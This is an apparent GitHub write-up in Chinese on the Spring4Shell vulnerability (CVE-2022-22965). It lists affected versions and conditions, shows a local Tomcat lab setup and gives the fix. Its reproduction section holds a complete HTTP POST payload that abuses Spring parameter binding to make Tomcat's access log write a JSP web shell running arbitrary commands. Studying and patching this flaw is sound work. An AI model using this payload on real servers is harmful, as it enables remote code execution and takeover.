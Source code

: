 # Spring Core-Spring4Shell RCE（CVE-2022-22965）
# 0x01 漏洞概述
Spring是目前全球最受欢迎的Java轻量级开源框架。近日网上爆出Spring核心框架存在RCE漏洞（编号CVE-2022-22965），这个漏洞被称为Spring4Shell。3月31日官方发布了漏洞信息，并在新版本v5.3.18和v5.2.20中修复了漏洞。

Spring MVC框架的参数绑定功能提供了将请求中的参数绑定控制器方法中参数对象的成员变量，攻击者通过构造恶意请求获取AccessLogValve对象并注入恶意字段值触发pipeline机制可写入任意路径下的文件。 

分析后发现漏洞结合了JDK9及以上版本一个新的属性，成功绕过历史漏洞CVE-2010-1622修复补丁，同时结合Tomcat容器的一些操作属性，可以实现GetShell。当然Weblogic、Jetty等其他Java中间件或应用程序也可能构建出完整利用链，不过按照目前的研究进度，该漏洞的影响范围较为受限。

# 0x02 影响范围

- Spring Framework 5.3.X < 5.3.18 
- Spring Framework 5.2.X < 5.2.20

- 受影响条件（需同时满足）：
   - JDK 9 及以上版本
   - Apache Tomcat 作为 Servlet 容器，且日志记录功能开启（默认状态）
   - Spring 框架以及衍生的框架
# 0x03 漏洞原理

[https://github.com/lanjelot/kb/blob/master/struts](https://github.com/lanjelot/kb/blob/master/struts)

[SpringMVC框架任意代码执行漏洞(CVE-2010-1622)分析](http://rui0.cn/archives/1158)

# 0x04 环境搭建
apache-tomcat-9.0.56
jdk-9.0.4

将有漏洞的war包放到tomcat的webapps下，刷新，自动解压

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648643333759-6e3b2246-9b13-47a7-a5fa-787cb5c16143.png#clientId=u5a1dc6b1-de15-4&from=paste&height=251&id=u4a9476c4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=334&originWidth=780&originalType=binary&ratio=1&size=30978&status=done&style=none&taskId=uba73ad91-c89c-4a74-abe0-afcc2599c0b&width=585)

修改bin目录中的`setclasspath.bat`文件，配置以jdk9启动tomcat

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1648642390489-63c33761-4ea1-41b1-a175-912cc58c4178.png#clientId=u34adb3ef-d89f-4&from=paste&id=u3c05b29c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=64&originWidth=631&originalType=binary&ratio=1&size=8530&status=done&style=none&taskId=ud9422165-371e-48b6-b127-bb94ff6d194)

进入bin目录，以管理员身份启动`startup.bat`，使用jdk9启动tomcat

![image](https://user-images.githubusercontent.com/84888757/161367222-12d5a3e1-684e-48a3-91fb-dc474806f7d4.png)


# 0x05 漏洞复现
poc：
```
POST /xxx/xxx HTTP/1.1
Host: 127.0.0.1:8080
Content-Type:application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
prefix: <% java
suffix: %>
Content-Length: 648

class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=hello&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=88&class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25{prefix}i.io.InputStream input=Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()%3bint len = -1%3bbyte[] bytes = new byte[4092]%3bwhile((len = input.read(bytes)) != -1){out.println(new String(bytes, "utf-8"))%3b}%25{suffix}i
```

![image](https://user-images.githubusercontent.com/84888757/162146845-cf89bed9-008d-43fe-b05a-c44fbe5d013f.png)


![image](https://user-images.githubusercontent.com/84888757/162146503-b901ebd1-c3a2-4664-8e27-5d44459d9bc7.png)


# 0x06 修复方案
目前 Spring 官方已经发布了解决上述漏洞的安全更新，建议受影响用户尽快升级到安全版本：
安全版本:    
Spring Framework == 5.3.18 
Spring Framework == 5.2.20
官方安全版本下载可以参考以下链接：

[https://github.com/spring-projects/spring-framework/tags](https://github.com/spring-projects/spring-framework/tags)

# 0x07 参考链接
- [https://mp.weixin.qq.com/s/G1z7mydl4nc9SxcZjwUQwg](https://mp.weixin.qq.com/s/G1z7mydl4nc9SxcZjwUQwg)

- [Spring Framework 远程代码执行漏洞(CVE-2022-22965) @斗象](https://vas.riskivy.com/vuln-detail?id=117)

- [https://www.inbreak.net/archives/377](https://www.inbreak.net/archives/377)

- [https://github.com/lanjelot/kb/blob/master/struts](https://github.com/lanjelot/kb/blob/master/struts)

- [http://rui0.cn/archives/1158](http://rui0.cn/archives/1158)
